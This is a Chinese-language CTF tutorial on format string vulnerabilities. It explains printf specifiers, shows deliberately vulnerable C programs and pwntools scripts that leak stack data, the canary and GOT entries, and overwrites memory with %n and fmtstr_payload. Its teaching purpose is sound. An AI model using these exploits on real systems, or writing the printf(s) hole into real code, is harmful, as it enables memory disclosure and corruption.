








# 格式化字符串漏洞

> 学习参考：
>
> [CTFwiki - Format String](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

## 0x01 格式化字符串函数介绍

### 格式化字符串函数

对于学过C语言的人来说，`printf()` 函数一定不会陌生。但是，知道“格式化字符串”的人却不是很多。

总的来说，`printf()`是一类称为**格式化字符串函数**的其中一个，这样的函数还有这些：

- 输入：

  scanf()

- 输出：

  |           函数            |                基本介绍                |
  | :-----------------------: | :------------------------------------: |
  |          printf           |             输出到 stdout              |
  |          fprintf          |           输出到指定 FILE 流           |
  |          vprintf          |    根据参数列表格式化输出到 stdout     |
  |         vfprintf          |  根据参数列表格式化输出到指定 FILE 流  |
  |          sprintf          |              输出到字符串              |
  |         snprintf          |         输出指定字节数到字符串         |
  |         vsprintf          |     根据参数列表格式化输出到字符串     |
  |         vsnprintf         | 根据参数列表格式化输出指定字节到字符串 |
  |       setproctitle        |               设置 argv                |
  |          syslog           |                输出日志                |
  | err, verr, warn, vwarn 等 |                  ...                   |

几乎所有的 C/C++ 程序都会利用格式化字符串函数来**输出信息，调试程序，或者处理字符串**。一般来说，格式化字符串在利用的时候主要分为三个部分

- 格式化字符串函数
- 格式化字符串
- 后续参数，**可选**

### 格式化字符串

#### 格式化占位符

这里我们着重介绍**printf家族**的转换说明，其语法是：

```c
%[parameter][flags][field width][.precision][length]type
```

- **parameter**

  **parameter**可以被忽略或者写成`n$`，这里的`n`代表的是第n个参数的意思。若任一占位符使用了**parameter**，其他的占位符也必须使用**parameter**。

  ```c
  printf("%2$d, %1$d", 16, 17);
  输出：
  17, 16
  ```

- **flags**

  - `-`：左对齐，缺省的情况是右对齐
  - `+`：总是表示有符号数的`+`（正号）和`-`（负号），缺省的情况是忽略正数的符号，仅适用于数值类型
  - ` `：空格：正数前加空格
  - `#`：对于'`g`'与'`G`'，不删除尾部0以表示精度。对于'`f`', '`F`', '`e`', '`E`', '`g`', '`G`', 总是输出小数点。对于'`o`', '`x`', '`X`', 在非0数值前分别输出前缀`0`, `0x`, 和`0X`表示数制。
  - `0`：如果*width*选项前缀以`0`，则在左侧用`0`填充直至达到宽度要求。例如`printf("%2d", 3)`输出"` 3`"，而`printf("%02d", 3)`输出"`03`"。如果`0`与`-`均出现，则`0`被忽略，即左对齐依然用空格填充。

- **field width**

  表示输出的最小宽度，不足则用空格或 0（结合 flags）填充。

  - 直接数字：`%10d`（至少 10 列）

  - `*`：宽度由参数提供：`%*d`

  例子：

  ```c
  printf("%5d\n", 12);    // "   12"
  printf("%-5d\n", 12);   // "12   "
  printf("%*d\n", 5, 12); // 同 %5d
  ```

- **.precision**

  精度，在输出浮点数的时候会经常使用。

  以 `.` 开头，规则会随 `type` 变化：

  - 对浮点 `%f/%e/%g`：通常表示小数位数或有效位数
    - `%.2f` -> 2 位小数
  - 对字符串 `%s`：表示最多输出多少个字符（相当于截断）
    - `%.5s` -> 最多 5 个字符
  - 对整数 `%d/%x/...`：表示最少输出多少位数字（不足补 0），并且会影响 `0` flag 的行为

  precision 也可以用 `*` 从参数读取：`%.*f`

  例子：

  ```c
  printf("%.3f\n", 3.14159);   // 3.142
  printf("%.4s\n", "abcdef");  // abcd
  printf("%.5d\n", 12);        // 00012
  printf("%.*f\n", 2, 3.14159);// 3.14
  ```

- `length`

  它用来告诉库：**你传入的参数到底是多大/什么类型**（否则会按默认类型读，可能出错）。

  常见：

  - `hh`：`char`（用于整数转换，如 `%hhd`）
  - `h`：`short`（`%hd`）
  - `l`：`long`（`%ld`）
  - `ll`：`long long`（`%lld`）
  - `z`：`size_t`（`%zu`）
  - `t`：`ptrdiff_t`（`%td`）
  - `j`：`intmax_t`（`%jd`）

- **type**

  也叫 specifier（转换说明符的“最后一个字母”）。常用：

  - 整数：`d i u x X o`
  - 浮点：`f F e E g G a A`
  - 字符/字符串：`c s`
  - 指针：`p`
  - 输出已写入字符数：`n`（会把当前输出字符数写到你提供的指针里；有安全注意）
  - 字面量 `%`：`%%`

在 `printf` 的格式字符串中，除 `%...` 转换说明外的字符都会原样输出；字符串字面量里的 `\n`、`\t` 等转义序列在编译期就已变成实际控制字符，`printf` 只是把这些字符输出；若要输出 `%` 本身需写 `%%`。

## 0x02 格式化字符串漏洞利用原理

由上面的内容我们知道，**printf家族**在输出时，是依据格式化字符串对参数做解析的。我们以下面这个程序为例。
```c
// gcc -std=c99 -fno-stack-protect -fno-PIE -no-pie -z noexecstack -O0 Printf.c -o Printf
#include <stdio.h>

int main(int argc, char **argv) {
  char color[10] = "red";
  int number = 10;
  float Float = 20.0;

  printf("color is %s, number is %d, Float is %f", color, number, Float);

  return 0;
}

```

### 32位

其反汇编代码如下：

```assembly
lea     ecx, [esp+4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    ecx
sub     esp, 24h
mov     [ebp+var_1A], 'der'
mov     [ebp+var_16], 0
mov     [ebp+var_12], 0
mov     [ebp+var_C], 0Ah
fld     ds:flt_804A030
fstp    [ebp+var_10]
fld     [ebp+var_10]
sub     esp, 0Ch
lea     esp, [esp-8]
fstp    qword ptr [esp]
push    [ebp+var_C]
lea     eax, [ebp+var_1A]
push    eax
push    offset format   ; "color is %s, number is %d, Float is %f"
call    _printf
add     esp, 20h
mov     eax, 0
mov     ecx, [ebp+var_4]
leave
lea     esp, [ecx-4]
retn
```

其中，如下这一部分是函数中的局部变量入栈
```assembly
mov     [ebp+var_1A], 'der'	; char color[10] = "red";
mov     [ebp+var_16], 0
mov     [ebp+var_12], 0
mov     [ebp+var_C], 0Ah	; int number = 10;
fld     ds:flt_804A030		; float Float = 20.0;
fstp    [ebp+var_10]
fld     [ebp+var_10]
```

接下来，是给`printf()`传参

```assembly
push   DWORD PTR [ebp-0xc]    ; number (int) 4B
lea    eax,[ebp-0x1a]
push   eax                    ; &color (char*) 4B
push   offset format          ; fmt (char*) 4B
call   printf@plt
add    esp,0x20               ; 调用者清栈
```

栈帧大概如下

```assembly
[esp+00] : format 指针                     -> "color is %s, number is %d, Float is %f"
[esp+04] : color 指针                      -> &color[0]  （"red"）
[esp+08] : number                          -> 10
[esp+0C] : Float 的 double 低 4 字节
[esp+10] : Float 的 double 高 4 字节
[esp+14] : （可能的 padding / 对齐）
...
```

使用gdb可以清晰的看出来


这里的`arg[3]`之所以是0是因为变量`Float`是浮点数，且C语言编译器在编译时将该变量类型从float转换为了double，占8个字节，这里显示出来的0是其低4位字节，使用`stack`就看的比较清晰了



然后，`printf()`就会根据格式化字符串的内容，将调用者栈帧（这里是`main`）中内容打印出来。

### 64位

64位也是差不多的，只不过换成了寄存器传参

```assembly
push    rbp
mov     rbp, rsp
sub     rsp, 30h

mov     [rbp+var_24], edi              ; argc
mov     [rbp+var_30], rsi              ; argv

mov     [rbp+var_12], 646572h          ; color = "red"（小端：'r''e''d'）
mov     [rbp+var_A], 0                 ; color 其余字节补 0（结尾 '\0' 等）
mov     [rbp+var_4], 0Ah               ; number = 10

movss   xmm0, cs:dword_402030          ; xmm0 = 20.0f
movss   [rbp+var_8], xmm0              ; Float = 20.0f（float）
pxor    xmm1, xmm1
cvtss2sd xmm1, [rbp+var_8]             

movq    rcx, xmm1                      ; 临时搬运 double(Float) 位模式
mov     edx, [rbp+var_4]               ; RDX = number
lea     rax, [rbp+var_12]              ; RAX = &color[0]
movq    xmm0, rcx                      ; XMM0 = (double)Float
mov     rsi, rax                       ; RSI = color
mov     edi, offset format             ; RDI = format
mov     eax, 1                         
call    _printf

mov     eax, 0
leave
retn
```



从这里，我们就能看出来，`printf()`会根据格式化字符串从栈上或者寄存器[^1]上拿数据，只要我们可以控制格式化字符串的内容，我们就可以让`printf()`或者其家族的函数，输出或者说泄露出甚至是更改栈上或者寄存器中的值。

## 0x03 格式化字符串的利用

在一般的题目中，格式化字符串漏洞长这样：

```c
printf(src);
```

这意味着我们可以构造我们需要的格式化字符串来实现我们的目的

### 泄露内存

利用格式化字符串漏洞，我们还可以获取我们所要输出的内容。一般会有以下操作：

- 泄露栈内存
  - 获取某个变量值
  - 获取某个变量的地址
- 泄露任意地址内存
  - 利用GOT表获取 libc 函数的地址，进而获取libc，进而获取其他的 libc 函数地址
  - 盲打，dump 整个程序，获取有用信息

#### 泄露栈内存

例如，我们给出以下程序

```c
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

使用Makefile编译（因为命令很长），关于Makefile的使用方法，请自行搜索。

```makefile
CC			:= gcc
CFLAGS 		:= -std=c99 -fno-stack-protector -fno-PIE -no-pie -Wl,-z,noexecstack 
CFLAGS32 	:= -m32
CFLAGS64	:= -m64

SRC := $(wildcard *.c)
BASES := $(SRC:.c=)
BIN32 := $(addsuffix _32, $(BASES))
BIN64 := $(addsuffix _64, $(BASES))

.PHONY: all clean
all: $(BIN32) $(BIN64)

%_32: %.c
	$(CC) $(CFLAGS) $(CFLAGS32) -o $@ $<

%_64: %.c
	$(CC) $(CFLAGS) $(CFLAGS64) -o $@ $<

clean:
	rm -f $(BIN32) $(BIN64)
```

我们使用gdb进行调试，并在`call printf`处打断点，程序会停在第一个`call printf`处。
```gdb
b printf
```

继续执行后我们就进入了`__printf`的代码段内

```assembly
endbr32
call   __x86.get_pc_thunk.ax
add    eax,0x1d2283
sub    esp,0xc
lea    edx,[esp+0x14]
push   0x0
push   edx
push   DWORD PTR [esp+0x18]
mov    eax,DWORD PTR [eax+0x70]
push   DWORD PTR [eax]
call   __vfprintf_internal
add    esp,0x1c
ret
```

这里解释一下，`__printf`的汇编代码，是经过高度优化的代码，其没有像其他函数代码一样的栈帧序言，其被编译为了省略帧指针的形式。解释这个是为了告诉各位：**其泄露的，是调用者栈帧上的数据**以及不要纠结于“**为什么找不见`printf`函数的栈底**”这个无聊的问题。
接下来我们继续执行程序，其会读取我们的输入，这里我们输入`%p-%p-%p-%p`，然后继续执行，其会输出以下内容：

```bash
pwndbg> c
Continuing.
00000001.22222222.ffffffff.%p-%p-%p-%p
```

继续执行，在第二个，有漏洞的`printf()`地方停下，我们看看，刚刚输入的`%p-%p-%p-%p`会让这个程序出什么问题


可以看到，我们输入的`%p-%p-%p-%p`被当成的格式化字符串（format），因为`printf()`函数总是把第一个参数作为格式化字符串来解析，由于程序中，第二个`printf`长这样：

```c
printf(s);
```

自然会将变量`s`的内容当作格式化字符串解析，结果也可以想到，`printf`会根据`s`中内容解析栈上的内容并输出。

```bash
0xffffc1b0-0x8048270-0xffffc20c-0x252d7025
```

#### 泄露任意地址内存

结合格式化占位符中的`[parameter]`，我们就可以达到泄露任意地址的目的。上文说到`$n`可以决定`printf`将第几个参数解析到该格式化占位符的位置，所以说，只要我们得知某个变量的地址，计算出其为`printf`的第几个参数，就可以利用构造好的格式化字符串去解析该地址的值，也就是变量的值。一般这种方法用于泄露canary值和got表，我们还是用上面的例子。

##### 泄露canary

使用这个命令编译，开启canary保护

```bash
gcc -std=c99 -fno-PIE -no-pie -Wl,-z,noexecstack -m32
```

开启了canary保护的程序，会在程序中插入以下代码

```assembly
mov     eax, large gs:14h
mov     [ebp+var_C], eax
xor     eax, eax
```

大意是从以`gs`中的值为基址 + 0x14的偏移得到的地址中的取值放入地址为rbp + var_c的地址中。基本上是一段随机值，但是其有个特点，不论32位还是64位，其最低字节都是`\x00`，可以降低其通过“字符串类”的输出而意外泄露的概率。

一般来说，我们在计算偏移的时候，会先构造如下输出来确定**栈上的格式化字符串本身，也就是那个字符串（字符数组）**是`printf()`的第几个参数（虽然严格上来说，格式化字符串是`printf()`的第一个参数，在一般的描述中，会忽略格式化字符串，将第二个参数表述成第一个参数）。



我们会用如将如下内容输入程序，来观察其输出来确定格式化字符串，在这个程序中是变量`s`是`printf()`的第几个参数
```text
AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
```

可以在终端中使用`python -c "print('AAAA' + '-%p'*15)"`来快速构造



其中`AAAA`转换成十六进制就是0x41414141，所以说，格式化字符串是`printf`的第十个变量，也称为其**偏移量（offset）**是10。

然后我们上gdb，使用`p/x $ebp-0xc`打印出canary的地址，然后使用

```gdb
p/d (int)([addr_of_canary]-[addr_of_format])/4 + offset
```

就可以计算出其偏移。

然后，我们就可以构造如下输入来输出其canary值



可以看到，最低字节的值为`\x00`，的确是canary值。

##### 泄露got表

我们依旧使用上面哪个程序，尝试泄露该程序中的`printf@got.plt`的值。

依旧在二个`printf()`处停下，先来看看`printf@got.plt`的地址



在`0x804c004`处，而我们的格式化字符串在`0xffffc1a8`。这两个地址相差非常大！并且，got表距离格式化字符串的偏移还是负数！在格式化占位符中，`-`是左对齐的意思，所以说我们不能构造出一个`%-33636237$p`这样的格式化占位符去泄露got表中的内容，所以我们需要用更聪明的方法。

在格式化占位符中，`%s` 将参数视为 `char *` 并解引用，从该地址起按字节输出直到遇到 `'\0'`（或精度限制）；因此在参数可控/错配时，若能让 `printf` 把栈上的某个值当作指针传给 `%s`，就可能将该指针指向的内存内容以字符串形式泄露出来。

而在这个程序中，我们构造的格式化字符串，是第二个`printf`的第10个参数，所以，我们可以构造如下输入

```c
[got_addr]%10$s
```

但是，这里有一点需要注意，虽然我前面一直说格式化字符串，也就是变量`s`，是`printf`的第10个参数，但是，更严谨的说，其实是`s[0]`到`s[3]`这四个字节才算`printf`的第10个参数，因为**第 N 个参数”在 `printf` 这种变参函数里，本质上是按 \*机器字\*（32 位下 4 字节、64 位下 8 字节）为单位去取的**，不是按字符去取的。如果你构造的是下面这样子

```c
%10$s[got_addr]
```

那么`s[0]`到`s[3]`就不是不是`[got_addr]`了，那么你需要重新计算偏移。

这里涉及到输入地址，所以我们要用脚本与其交互

```py
#!/usr/bin/env python

from pwn import *

e = ELF("./printf_leak_stack_canary")
p = process("./printf_leak_stack_canary")

printf_got = e.got['printf']
payload = p32(printf_got) + b"%10$s"

p.sendline(payload)

p.recvuntil(b"%10$s\n")
print_addr = u32(p.recv()[4:8])
print(hex(print_addr))
```

这样我们就得到了`printf`的真实地址

### 覆盖内存

在格式化占位符中，有一个特殊的type，就是`n`，它会将输出的字符数写入你提供的指针中，依靠与这个type，在加上一点特殊构造，我们就可以修改某些内存中的值。

这里我们仍使用CTFwiki中的演示代码

```c
/* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

一般来说，我们遇到覆盖地址的题目，都遵循以下步骤：

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

#### 覆盖c

程序已经将c的地址输出出来了，我们接受并解析就行

然后我们构造如下格式化字符串

```c
[c_addr]%012d%6$n
```

由于`c`的地址本身占4个字节，而我们要让`c`的值变成16，所以我们还需要12字节的输出，所以我们用`%012d`创造12字节的输出

脚本如下：

```python
def ow_c():
    c_addr = int(p.recvuntil(b'\n', drop=True), 16)
    print(hex(c_addr))
    payload = p32(c_addr) + b"%012d%6$n"
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))
```

#### 覆盖a

通过IDA我们可以得知，`a`的地址是`0x0804C018`。但是，`a`需要被覆盖成的值却比机器字长小，其值为2，这就意味着我们需要让`%n`前，让该`printf`只有2字节的输出，所以我们构造如下的格式化字符串

```c
aa%8$naa[a_addr]
```

正如上文中说，`printf`这种变参函数，其参数是按机器字去解析的，而我们构造的格式化字符串，在内存中是这样的：
```mem
s[0]: "aa%8"
s[4]: "$naa"
s[8]: [a_addr]
...
```

前面的两个`aa`保证在`%n`前只有2字节的输出，后面的两个`aa`为了对齐内存，让`[a_addr]`能被正常解析，同时，`[a_addr]`也变成了`printf`的第8个参数。

脚本如下
```py
def ow_a():
    a_addr = 0x0804C018
    payload = b"aa%8$naa" + p32(a_addr)
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))
```

#### 覆盖b

`b`的问题和`a`相反，它太大了，如果我们选择一次性输出0x12345678个字节，一来是需要花时间，二来，程序不一定会让你输出那么多的字节，所以我们还要从内存上下功夫。

内存地址的最小寻址单位是 **字节（1 byte）**，但为了便于观察与对齐访问，许多调试/逆向工具通常会以 **机器字长（如 4/8 字节）** 为粒度来分组显示和解释数据。

比如在IDA中，`b`是这样表示的
```mem
0804C01C b               dd 1C8h
```

但是在实际内存中，是这样的
```mem
0804C01C: \xC8
0804C01D: \x01
0804C01E: \x00
0804C01F: \x00
```

虽然我们无法一下子覆盖4个字节，将`0x12345678`拆开，拆成`\x12 \x34 \x56 \x78`然后一次覆盖内存。

上文中说到，有如下两个`flags`：

- `hh`：`char`（用于整数转换，如 `%hhd`）
- `h`：`short`（`%hd`）

他们对`%n`也同样使用，`%hhn`能覆盖1字节，`%hn`能覆盖2字节，所以我们只要构造如下的格式化字符串，就可以完成覆盖
```C
p32(0X0804C01C)+p32(0x0804C01D)+p32(0x0804C01E)+p32(0x0804C01F)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

但是这样写的话，pad的值就需要我们写代码来计算，脚本如下
```py
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = f"%{result}c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = f"%{result}c"
    fmtstr += f"%{index}$hhn"
    return fmtstr.encode()


def fmt_str(offset, size, addr, target):
    payload = b""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)

    prev = len(payload)

    for i in range(4):
        payload += fmt(prev, (target >> (i * 8)) & 0xff, offset + i)
        prev = (target >> (i * 8)) & 0xff

    return payload

def ow_b():
    b_addr = 0x0804C01C
    payload = fmt_str(6, 4, b_addr, 0x12345678)
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))
```

但好消息是，pwntools库中已经提供了一种快速构造fmtstr_payload的方法：**fmtstr_payload**，对于这道题目，我们可以简化成这样：
```py
def ow_b_pwntools():
    b_addr = 0x0804C01C
    payload = fmtstr_payload(6, {b_addr:0x12345678})
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))
```

关于fmtstr_payload的用法，这里不做介绍，请自行搜索学习。

#### 完整脚本

```py
from pwn import *
import sys

e = ELF("./printf_mem_ow_32")
p = process("./printf_mem_ow_32")

def ow_c():
    c_addr = int(p.recvuntil(b'\n', drop=True), 16)
    print(hex(c_addr))
    payload = p32(c_addr) + b"%012d%6$n"
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))

def ow_a():
    a_addr = 0x0804C018
    payload = b"aa%8$naa" + p32(a_addr)
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = f"%{result}c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = f"%{result}c"
    fmtstr += f"%{index}$hhn"
    return fmtstr.encode()


def fmt_str(offset, size, addr, target):
    payload = b""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)

    prev = len(payload)

    for i in range(4):
        payload += fmt(prev, (target >> (i * 8)) & 0xff, offset + i)
        prev = (target >> (i * 8)) & 0xff

    return payload

def ow_b():
    b_addr = 0x0804C01C
    payload = fmt_str(6, 4, b_addr, 0x12345678)
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))

def ow_b_pwntools():
    b_addr = 0x0804C01C
    payload = fmtstr_payload(6, {b_addr:0x12345678})
    print(payload)
    p.sendline(payload)
    print(p.recvall().decode(errors="replace"))

def main():
    mode = sys.argv[1]
    
    if mode == "ow_c" :
        ow_c()
    elif mode == "ow_a":
        ow_a()
    elif mode == "ow_b":
        ow_b()
    elif mode == "ow_b_pwntools":
        ow_b_pwntools()
    else:
        sys.exit(1)

if __name__ == "__main__":
    main()
```

[^1]:这里说的是那6个寄存器

>**版权与引用声明**
>
>**本文部分内容基于以下外部材料：**
>
>- **来源**：CTF Wiki - [Format String](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)
>- **原作者**：CTF Wiki 社区贡献者
>- **许可协议**：该部分内容遵循 **[知识共享 署名-非商业性使用-相同方式共享 4.0 国际许可协议](https://creativecommons.org/licenses/by-nc-sa/4.0/)** 提供。
>- **使用方式**：本文对原文进行了选择性摘录和格式转换，未进行实质性修改。
>- **完整声明**：本文整体同样遵循 CC BY-NC-SA 4.0 协议发布
